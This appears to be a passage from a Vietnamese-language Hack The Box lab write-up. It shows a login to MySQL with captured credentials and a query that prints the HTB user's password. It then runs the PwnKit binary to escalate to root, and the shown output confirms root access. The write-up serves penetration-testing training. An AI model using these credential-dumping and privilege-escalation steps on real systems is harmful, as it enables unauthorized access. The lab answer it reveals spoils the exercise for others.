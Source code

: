 ### MySQL

Đang có mysql chạy trên 3306 và 33060 ports, vậy chắc chắn người dùng `HTB` và mật khẩu là thứ chúng ta tìm kiếm đang ở đây
			
![](<4_Footprinting/images/4.png>)
Thử kết nối với mysql bằng thông tin đăng nhập của `tom`
```zsh
tom@NIXHARD:~$ mysql -u tom -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.27-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Rất dễ dàng, giờ chỉ cần tìm thứ chúng ta cần:

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
mysql> select username, password from users.users where username = 'HTB';
+----------+------------------------------+
| username | password                     |
+----------+------------------------------+
| HTB      | cr3n4o7rzse7rzhnckhssncif7ds |
+----------+------------------------------+
1 row in set (0.00 sec)
```

Vậy là xong bài lab, nhưng nếu bạn muốn lên root thì đơn giản chỉ cần dùng `PwnKit`

```zsh
tom@NIXHARD:~$ chmod +x PwnKit 
tom@NIXHARD:~$ ./PwnKit 
root@NIXHARD:/home/tom# id
uid=0(root) gid=0(root) groups=0(root),119(mysql),1002(tom)
root@NIXHARD:/home/tom# 
```
Happy Hecking...............